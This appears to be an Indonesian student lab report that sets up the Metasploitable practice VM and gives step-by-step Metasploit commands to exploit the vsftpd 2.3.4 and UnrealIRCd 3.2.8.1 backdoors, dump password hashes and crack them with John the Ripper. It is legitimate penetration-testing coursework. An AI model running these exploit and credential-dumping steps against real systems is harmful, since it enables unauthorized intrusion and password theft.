 # Tugas 5

## Pendahuluan

&nbsp;&nbsp;&nbsp; Komputer sebagai perangkat yang sering digunakan untuk memudahkan pekerjaan manusia di berbagai bidang membuat perangkat ini dimiliki oleh setiap orang. Sistem operasi yang mengendalikan dan mengkoordinasikan semua perangkat keras yang bekerja di komputer menjadikan munculnya berbagai tipe sistem operasi yang berkembang di pasaran, dimulai dari sistem operasi yang berbayar seperti Windows hingga yang gratis atau open source seperti Linux.

&nbsp;&nbsp;&nbsp; Sistem operasi yang berkembang saat ini selalu mengalami pembaharuan untuk meningkatkan kinerja serta kualitas yang dimilikinya. Perkembangan sistem operasi sekarang ini banyak mengalami penyempurnaan akan tetapi masih terdapat celah keamanan yang dapat dieksploitasi dengan berbagai cara yang mengakibatkan komputer dapat dieksploitasi dan dimanfaatkan oleh orang yang tidak memiliki hak akses ke dalam sebuah sistem.

&nbsp;&nbsp;&nbsp; Untuk mengetahui celah keamanan tersebut perlu adanya pengujian atau penetrasi untuk menguji dan mencari celah keamanan apa saja yang dapat dieksploitasi di sistem operasi yang dapat digunakan untuk masuk ke dalam sebuah sistem tanpa memiliki hak akses.

## Instalasi

### -Instalasi Metasploitable pada Virtual Box



1. Download dan install Virtual Box pada komputer anda.
1. Setelah instalasi selesai, buka Virtual Box dan klik "New".

![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15356755_1380978318593630_3194431754367144286_n.jpg?oh=f087713c84352ad23b6478a8493fe365&oe=5849DC89 "")

3. Anda bisa memberikan nama, tujuannya kita memberi nama pada Metasploitable hanya untuk memastikan nama itu dimengerti dan mudah untuk dikenali.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15380732_1380971348594327_7514329790307194132_n.jpg?oh=0246f9be1fd2c43b4417052ac6bc505e&oe=5848BEE2 "")

4. Untuk memori, anda setidaknya mengalokasikan memori minimal 256MB. Namun jika anda mempunyai RAM yang cukup besar, anda bisa meninambahkan alokasi memorinya. 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15319080_1380971545260974_1520687697596227853_n.jpg?oh=d64003d28cba89fdba1374e5ff8c275a&oe=5848FFEB "")

5. Di dalam jendela "Create Virtual Machine", anda dapat memilih lokasi gambar yang telah anda download sebelumnya (setelah mengekstrak file ZIP nya). Klik logo folder di sebelah kanan bawah dan cari lokasi gambar Metasploitable.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15327502_1380972465260882_5014155796298159778_n.jpg?oh=0402f6e77f2519d2f1f2d58683729e8f&oe=5848C3B3 "")

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Ketika selesai, klik "Create"

6. Langkah selanjutnya adalah kita harus menjalankan machine yang baru saja kita install. Pilih Metasploitable OS dan klik "Start".
7. Machine metasploitable akan booting dan seperti ini tampilan window nya.

![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15284855_1380970998594362_1369452897915757503_n.jpg?oh=3f4082ecf41161618c6ca0aa1782a7c3&oe=5848F2DA "")

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Secara default usernamenya: msfadmin dan passwordnya: msfadmin. Anda bisa merubah &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username dan password setelah log in dan menjadikan root.  

## Uji Penetrasi Metasploit

### Exploit vsftpd_234_backdoor

1. Masuk ke metasploit console dengan cara mengetikkan perintah: `msfconsole`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_1.PNG "")

2. Setelah masuk ke metasploit console, kita akan mencari exploitnya dengan mengetikkan perintah: `search vsftpd`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_2.PNG "")

3. Setelah mendapatkan yang kita cari, kemudian kita masuk kedalamnya dengan mengetikkan perintah: `use exploit/unix/ftpvsftpd_234_backdoor` dan jangan lupa untuk setting ip target yang akan di exploit dengan mengetikkan perintah: `set RHOST [IP_Target]`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_3.PNG "")

4. Kita akan melakukan exploit. Ketikkan perintah: `exploit`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_4.PNG "")

5. Lihat session yang sedang berjalan dengan perintah: `sessions -l`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_5.PNG "")

6. Kemudian kita akan melihat post apa saja yang tersedia dengan mengetikkan perintah: `show post`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_6.PNG "")

7. Misalnya disini saya akan melakukan exploit terhadap hashdump. Kita ketikkan perintah: `use post/linux/gather/hashdump`. Kemudian set session yang sedang berjalan dengan perintah: `set session 1`. Untuk eksekusi ketikkan perintah: `run`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_7.PNG "")

8. Saat kita mengecek file dump tersebut, isi filenya masih terenkripsi. Oleh karena itu kita akan mendecrypt dengan bantuan tool lain, yaitu John de Ripper. Untuk menjalankan tool tersebut kita akan masuk ke direktori `/usr/sbin`, kemudian jalankan John de Ripper dengan mengetikkan perintah: `./john [Lokasi_File_Hashdump]`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_8.PNG "")

9. Dari gambar di atas, setelah file dump berhasil di decrypt kita dapat melihat username dan password target kita

### Exploit unreal_ircd_3281_backdoor

1. Sama dengan exploit sebelumnya, pertama kita masuk ke metasploit console dengan cara mengetikkan perintah: `msfconsole`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_1.PNG "")

2. Setelah masuk ke metasploit console, kita akan mencari exploitnya dengan mengetikkan perintah: `search unreal`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_2.PNG "")

3. Setelah mendapatkan yang kita cari, kemudian kita masuk kedalamnya dengan mengetikkan perintah: `use exploit/unix/irc/unreal_ircd_3281_backdoor` dan jangan lupa untuk setting ip target yang akan di exploit dengan mengetikkan perintah: `set RHOST [IP_Target]`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_3.PNG "")

4. Kita akan melakukan exploit. Ketikkan perintah: `exploit -z`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_4.PNG "")

5. Lihat session yang sedang berjalan dengan perintah: `sessions -l`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_5.PNG "")

6. Kemudian kita akan melihat post apa saja yang tersedia dengan mengetikkan perintah: `show post`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_6.PNG "")

7. Seperti exploit sebelumnya, disini saya kembali akan melakukan exploit terhadap hashdump. Kita ketikkan perintah: `use post/linux/gather/hashdump`. Kemudian set session yang sedang berjalan dengan perintah: `set session 1`. Untuk eksekusi ketikkan perintah: `run`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_7.PNG "")

8. Sama seperti sebelumnya, kita akan melakukan decrypt dengan bantuan tool John de Ripper untuk mendapatkan username dan password target dengan cara mengetikkan perintah: `./john [Lokasi_File_Hashdump]`.

